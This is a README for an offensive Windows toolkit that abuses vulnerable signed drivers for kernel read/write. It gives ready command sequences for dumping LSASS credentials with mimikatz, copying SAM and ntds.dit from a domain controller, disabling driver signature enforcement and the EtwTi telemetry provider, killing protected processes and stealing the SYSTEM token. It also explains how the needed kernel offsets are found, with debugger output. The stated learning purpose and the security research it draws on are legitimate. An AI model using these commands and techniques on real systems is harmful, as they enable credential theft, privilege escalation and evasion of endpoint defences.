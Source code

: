 # BYOVDKit

BYOVDKit is a tool kit for utilizing vulnerable driver to perform various attack aka bring your own vulnerable driver (BYOVD) attack. I wrote this to

- make use of different vulnerable drivers easily (support DBUtil_2_3, RTCore64 and GIGABYTE). You can put your own driver read/write implementation in DriverOps.cpp and DriverOps.h

- calculate offset in runtime to avoid hardcoding offset

- review some of the code for learning purpose

- learn how to leverage kernel read write vulnerability

- learn kernel debug

I wont recommend you to use this in production environment as this project could cause BSOD due to PatchGuard/HVCI/etc or a wrong offset calculation. I didnt test with 32 bit system.

### Usage

```
.\BYOVDKit.exe <driver option> <argument>
        <driver option> - 0: Undefined, 1: DBUtil_2_3, 2: RTCore64, 3: GIGABYTE. Default DBUtil_2_3
Options:
Install Driver: installDrv <driver path> [service name]
Uninstall Driver: uninstallDrv <service name>
PPL options: PPL <check/disable> [PID]
        [PID] - default check or disable LSA protection
PPL options: PPL enable <PID> [<PP/PPL> <signer type>]
        [PP/PPL] - default PPL
        [signer type] - default WinTcb
DSE options: DSE <check/enable/disable/installUnsignDrv>
DSE options: DSE installUnsignDrv <driver path> <service name>
        installUnsignDrv - Install Unsigned Driver and revert DSE setting
Copy protected file: copy <file path>
Delete protected file: delete <file path>
Terminate protected process: kill <PID>
Copy Token: token <source PID> [target PID]
        [source PID] - input 4 to copy SYSTEM token
        [target PID] - default spawn cmd
EtwTi options: ETW <enable/disable/check>
```

#### Enable PPL to dump LSASS when LSA protection is on

```
.\BYOVDKit.exe 1 installDrv C:\dbutil_2_3.sys
.\BYOVDKit.exe 1 PPL enable <PID of mimikatz>
mimikatz # sekurlsa::logonpasswords
```

#### Copy NTDS on Domain Controller

```
.\BYOVDKit.exe 2 installDrv C:\RTCore64.sys
.\BYOVDKit.exe 2 copy C:\Windows\System32\Config\SAM
.\BYOVDKit.exe 2 copy C:\Windows\NTDS\ntds.dit
```

#### Install Unsigned Driver

```
.\BYOVDKit.exe 1 installDrv C:\dbutil_2_3.sys
.\BYOVDKit.exe 1 DSE installUnsignDrv C:\MyDriver.sys MyDriver
```

or do it step by step

```
.\BYOVDKit.exe 2 installDrv C:\dbutil_2_3.sys
.\BYOVDKit.exe 2 DSE check
.\BYOVDKit.exe 2 DSE disable
.\BYOVDKit.exe 0 installDrv C:\MyDriver.sys MyDriver
.\BYOVDKit.exe 2 DSE enable
```

#### Disable EtwTi

```
.\BYOVDKit.exe 3 installDrv C:\gdrv.sys
.\BYOVDKit.exe 3 ETW disable
```



### Calculate Offset in Runtime

##### EtwThreatIntProvRegHandle

As suggested in [method 1](https://securityintelligence.com/posts/direct-kernel-object-manipulation-attacks-etw-providers/), we can map `ntoskrnl.exe` into memory and read data at `KeInsertQueueApc` byte by byte until we hit `mov R10` to retrieve the offset. But during debugging, I found that the assembly code is `mov rcx` in my VM. The source code of `KeInsertQueueApc` may be different across different built of Windows. I only check for `mov R10` and `mov rcx` in this project. 

```
0: kd> uf nt!KeInsertQueueApc
nt!KeInsertQueueApc:
fffff807`60d13500 48895c2410      mov     qword ptr [rsp+10h],rbx
...
fffff807`60d13524 488b0d65e29100  mov     rcx,qword ptr [nt!EtwThreatIntProvRegHandle (fffff807`61631790)]
```

Disassemble the shellcode `488b0d65e29100` [here](https://defuse.ca/online-x86-assembler.htm#disassembly2) give us `mov  rcx,QWORD PTR [rip+0x91e265]`.  Clearly we can search for `\x48\x8b\x0d` to extract the virtual offset. Kernel base address could be retrieve through ` EnumDeviceDrivers` where Windows kernel being the first entry. So the global address = `address of \x48\x8b\x0d + 0x91e265 - mapped address of ntoskrnl.exe + kernel base address`

##### ProcessToken and ObjectTable

@itm4n's [blog post](https://itm4n.github.io/debugging-protected-processes/) show us that we can to extract the offset of `ProcessProtection` by reading data at `PsIsProtectedProcess`. By assuming those offsets always have same distance in the struct `_EPROCESS`, we can calculate offset `ProcessSignatureLevel = ProcessProtection - 0x2`.  Similarly, according to [this forum post](https://www.unknowncheats.me/forum/3411035-post9.html?s=78c170ef7a645916c3ac8783fc221c21), `ProcessToken = ProcessJob - 0x58` and I assume `ProcessObjectTable = ProcessDebugPort - 0x8` in this project.

```
0: kd> uf nt!PsGetProcessDebugPort
nt!PsGetProcessDebugPort:
fffff805`1cf75050 488b8178050000  mov     rax,qword ptr [rcx+578h]
fffff805`1cf75057 c3              ret
```

The offset of `ProcessDebugPort` is `0x0578` which could be extracted by reading data in address of`PsGetProcessDebugPort + 3`

```
0: kd> dt nt!_EPROCESS
   +0x000 Pcb              : _KPROCESS
   +0x438 ProcessLock      : _EX_PUSH_LOCK
   +0x440 UniqueProcessId  : Ptr64 Void
   +0x448 ActiveProcessLinks : _LIST_ENTRY
  ...
   +0x570 ObjectTable      : Ptr64 _HANDLE_TABLE
   +0x578 DebugPort        : Ptr64 Void
   ...
```

By inspecting the struct `_EPROCESS`, the offset can by calculate as `ProcessObjectTable = ProcessDebugPort - size of _HANDLE_TABLE`

##### g_CiOptions

@XPN's [blog post](https://blog.xpnsec.com/gcioptions-in-a-virtualized-world/) demonstrate how to search the global offset of `g_CiOptions`. This [BOF](https://github.com/NVISOsecurity/CobaltWhispers/blob/main/src/Drivers/DisableDSE/DisableDSE.c) has similar implementation which is adopted in this project. First we map `CI.dll` into memory. Reading data byte by byte at `CiInitialize` until we hit `mov     ecx,ebp`. 

```
0: kd> uf CI!CiInitialize
...
CI!CiInitialize+0x49:
fffff802`82433449 4c8bcb          mov     r9,rbx
fffff802`8243344c 4c8bc7          mov     r8,rdi
fffff802`8243344f 488bd6          mov     rdx,rsi
fffff802`82433452 8bcd            mov     ecx,ebp
fffff802`82433454 e8bb080000      call    CI!CipInitialize (fffff802`82433d14)
```

Shellcode `e8bb08` disassemble to `call   0x8bb+5` which indicate address of `CipInitialize` locate at `address of \xe8 + 0x8bb + 5`.

Similarly, we search for `mov     dword ptr` at address of `CipInitialize` to extract the offset of `CI!g_CiOptions` which is `0xfff4683`. 

```
0: kd> uf CI!CipInitialize
CI!CipInitialize:
fffff802`82433d14 48895c2408      mov     qword ptr [rsp+8],rbx
fffff802`82433d19 48896c2410      mov     qword ptr [rsp+10h],rbp
fffff802`82433d1e 4889742418      mov     qword ptr [rsp+18h],rsi
fffff802`82433d23 57              push    rdi
fffff802`82433d24 4154            push    r12
fffff802`82433d26 4156            push    r14
fffff802`82433d28 4883ec40        sub     rsp,40h
fffff802`82433d2c 498be9          mov     rbp,r9
fffff802`82433d2f 890d8346ffff    mov     dword ptr [CI!g_CiOptions (fffff802`824283b8)],ecx
```

Base address of `CI.dll` could be obtained with `NtQuerySystemInformation` and `(SYSTEM_INFORMATION_CLASS)11` which is `SystemModuleInformation`. Thus, global address = `address of \x89\x0d + 0xfff4683 - mapped address of CI.dll + base address of CI.dll`



### Elevated Handle To Copy Protected File

As implemented in KernelCactus, it can [elevate process handle and file handle](https://spikysabra.gitbook.io/kernelcactus/pocs/total-service-destruction) to terminate EDR process and delete files to destroy EDR service. I come up with one more use case of elevating file handle. We can copy any protected file including SAM/SYSTEM/SECURITY and NTDS by first opening file handle through `CreateFile`. Elevate the file handle and read the content through `MapViewOfFile`.



### References

- https://spikysabra.gitbook.io/kernelcactus/
- https://securityintelligence.com/posts/direct-kernel-object-manipulation-attacks-etw-providers/
- https://itm4n.github.io/debugging-protected-processes/
- https://blog.xpnsec.com/gcioptions-in-a-virtualized-world/
- https://github.com/NVISOsecurity/CobaltWhispers/blob/main/src/Drivers/DisableDSE/DisableDSE.c





